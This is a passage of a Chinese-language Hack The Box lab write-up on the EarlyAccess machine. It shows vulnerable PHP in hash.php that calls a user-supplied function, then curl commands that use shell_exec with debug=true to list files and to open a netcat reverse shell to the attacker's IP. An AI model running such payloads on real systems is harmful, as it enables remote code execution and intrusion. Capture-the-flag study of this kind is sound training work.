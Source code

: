 现在我们有 hash.php 的档案要看。有趣的是这个函数:

```
function hash_pw($hash_function, $password)
{
    // DEVELOPER-NOTE: There has gotta be an easier way...
    ob_start();
    // Use inputted hash_function to hash password
    $hash = @$hash_function($password);
    ob_end_clean();
    return $hash;
}
```

我们可以提供密码和散列函数。然后在脚本的下面:

```
if(isset($_REQUEST['hash_function']) && isset($_REQUEST['hash']) && isset($_REQUEST['password']))
{
    // Only allow custom hashes, if `debug` is set
      if($_REQUEST['hash_function'] !== "md5" && $_REQUEST['hash_function'] !== "sha1" && !isset($_REQUEST['debug']))
        throw new Exception("Only MD5 and SHA1 are currently supported!");
        {
                $hash = hash_pw($_REQUEST['hash_function'], $_REQUEST['password']);$_SESSION['verify'] = ($hash === $_REQUEST['hash']);
                header('Location: /home.php?tool=hashing');
                return;
            }
        }
```

# 调试漏洞

如果我们修改请求并发送一个 debug=true 的参数，那么我们可以使用 shell_exec 作为散列函数来执行我们自己的命令。让我们试着列出目录:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl -s -L -k -X POST -b 'PHPSESSID=7241f80366715e8f4308d92c6837234d' --data-binary 'action=hash&redirect=true&password=ls&hash_function=shell_exec&debug=true' 'http://dev.earlyaccess.htb/actions/hash.php' | grep "Hashed password" -A 5<h3>Hashed password:</h3>
file.php
hash.php
login.php
logout.php
```

反向外壳的时间:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl -s -L -k -X POST -b 'PHPSESSID=7241f80366715e8f4308d92c6837234d' --data-binary 'action=hash&redirect=true&password=nc+10.10.14.12+1337+-e+/bin/bash&hash_function=shell_exec&debug=true' $'http://dev.earlyaccess.htb/actions/hash.php'
```
